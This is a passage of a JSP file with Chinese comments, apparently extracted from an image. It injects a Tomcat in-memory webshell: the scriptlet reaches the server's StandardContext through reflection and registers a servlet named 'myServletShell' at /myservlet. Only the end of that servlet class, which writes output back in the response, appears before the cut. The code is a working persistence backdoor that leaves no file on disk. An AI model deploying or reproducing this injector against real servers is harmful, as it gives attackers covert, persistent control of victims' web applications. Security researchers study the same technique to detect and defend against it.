 ```plain
                resp.getWriter().write(out);
            } catch (Exception e) {}
        }
    }

    @Override
    public void destroy() {
        super.destroy();
    }
}
%>

<%
    try {
        String myServletname = "myServletShell";

        // 获取应用程序上下文对象 (ApplicationContextFacade)
        ServletContext servletContext = request.getSession().getServletContext();

        if(servletContext.getServletRegistration(myServletname) == null) {
            // 获取 ApplicationContext
            Field applicationContextField = servletContext.getClass().getDeclaredField("context");
            applicationContextField.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

            // 获取 StandardContext
            Field standardConextField = applicationContext.getClass().getDeclaredField("context");
            standardConextField.setAccessible(true);
            StandardContext standardContext = (StandardContext) standardConextField.get(applicationContext);

            // 创建自定义的 servlet
            MyServlet myServlet = new MyServlet();

            // 使用 Wrapper 封装 Servlet
            Wrapper wrapper = standardContext.createWrapper();
            wrapper.setName(myServletname);
            wrapper.setServletClass(myServlet.getClass().getName());
            wrapper.setServlet(myServlet);

            // 向 standardContext 中的 child 添加 wrapper
            standardContext.addChild(wrapper);

            // 向 servletMappings 中添加
            standardContext.addServletMappingDecoded("/myservlet", myServletname);
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
```
